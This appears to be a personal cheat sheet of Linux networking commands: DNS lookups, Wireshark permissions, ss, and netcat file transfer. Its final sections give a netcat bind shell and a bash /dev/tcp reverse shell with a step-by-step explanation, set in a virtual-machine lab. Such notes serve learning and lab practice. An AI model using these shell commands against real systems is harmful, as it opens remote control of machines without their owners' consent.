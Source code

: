 # Find places

destination directly

    dig +short <domain name>
    nslookup <domain name>

the routes taken

    tracepath <desitination>

# Wireshark

Capture as non-root:

    sudo usermod -a -G wireshark <username>
    sudo chmod 750 /usr/bin/dumpcap
    sudo setcap cap_net_raw,cap_net_admin+eip /usr/bin/dumpcap
    # logout

# File Descriptors

Pointers to the sources of data that the programs are using.

0   stdin   Standard Input
1   stdout  Standard Output
2   stderr  Standard Error

# Sockets

## ss

> another utility to investigate sockets

    # all,numeric(noresolve),tcp,listen,processes
    ss -antlp

# Send a file

    # create on target
    nc -vlpn 6666 > mybin
    
    # execute on target on connect
    nc -vlpn 6666 -e /bin/bash
    
    # send from source
    nc -vn <ip> 6666 < mybin

# Send a basic GET request to the application on server port

        cat <(echo "GET \file.txt HTTP/1.0" && echo) - | nc 1.1.1.1 2222 -vv

# Reverse shell: /bin/bash -> /dev/tcp

Roger home: [l]isten to a [p]ort with [v]erbose output from [nc] netcat

        nc -v -l -p 666
            
Alien ship : execute it in a terminal of a virtual machine on host only adapter

        /bin/bash -i >& /dev/tcp/[roger-ip]/[roger-port] 0>&1 &

1. Execute bash in [i]nteractive session : /bin/bash -i
2. Send bash output : >&
3. Interact directly with the TCP protocol : /dev/tcp/ip/port/
4. Send bash stdin -> stdout : 0>&1  * Resend to Roger what he is typing
5. All in background : &

